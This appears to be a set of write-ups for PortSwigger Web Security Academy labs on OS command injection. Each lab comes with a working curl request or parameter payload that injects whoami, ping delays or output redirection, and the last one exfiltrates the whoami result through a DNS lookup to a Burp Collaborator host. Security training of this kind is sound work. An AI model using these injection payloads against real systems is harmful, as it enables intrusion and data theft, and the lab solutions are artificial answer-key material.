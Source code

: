 ### Lab: OS command injection, simple case

This lab contains an OS command injection vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the whoami command to determine the name of the current user. 
```
curl -X POST 'https://0a8000b903c65deb8086994400ea00c8.web-security-academy.net/product/stock' \
-H "Cookie: session=xps6jUg4ZDVQyYjLsxRtl8Od15NKBPLg" \
-H "Content-Type: application/x-www-form-urlencoded" \
--data "productId=1&storeId=1|whoami"
```
### Lab: Blind OS command injection with time delays

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay. 

```
curl -X POST 'https://0aaf004b031e38f383aae249003f0080.web-security-academy.net/feedback/submit' \
-H "Cookie: session=aGcQsMDWntNeh33TGgbsEaAyZXPQ1aaY" \
-H "Content-Type: application/x-www-form-urlencoded" \
--data "csrf=yrQUWg9VFAbn3BKcnJXSA0veE8nejgvC&name=a&email=a@a||ping+-c+10+127.0.0.1||&subject=a&message=a"
```
### Lab: Blind OS command injection with output redirection

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:
`/var/www/images/`

The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output. 

```
curl -X POST 'https://0a0c00d903760d0f80a14ee0009600c6.web-security-academy.net/feedback/submit' \
-H "Cookie: session=JZjDvRrL8L3w2zZ9jUE9AxlDheN0FGLD" \
-H "Content-Type: application/x-www-form-urlencoded" \
--data "csrf=l3wvGkjn9z0e6hbLSU9QdyzSS0RokutP&name=a&email=email=||whoami>/var/www/images/output.txt||&subject=a&message=a";
curl 'https://0a0c00d903760d0f80a14ee0009600c6.web-security-academy.net/image?filename=output.txt'
```
### Lab: Blind OS command injection with out-of-band interaction

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. 



Modify the email parameter, changing it to:
`email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`
### Lab: Blind OS command injection with out-of-band data exfiltration

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab. 


Modify the email parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:
``email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||``

